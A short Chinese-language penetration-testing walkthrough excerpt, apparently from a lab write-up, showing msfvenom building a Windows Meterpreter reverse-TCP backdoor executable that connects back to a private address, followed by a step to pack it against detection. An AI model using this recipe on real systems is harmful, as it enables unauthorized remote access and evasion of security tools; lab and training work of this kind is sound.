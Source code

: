 ### 制作并上传木马

#### 制作后门

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.220.137 lport=9999 -f exe -o houmen.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: houmen.exe
```

#### 加个壳

![image-20220811181014648](./st1.assets/image-20220811181014648.png)
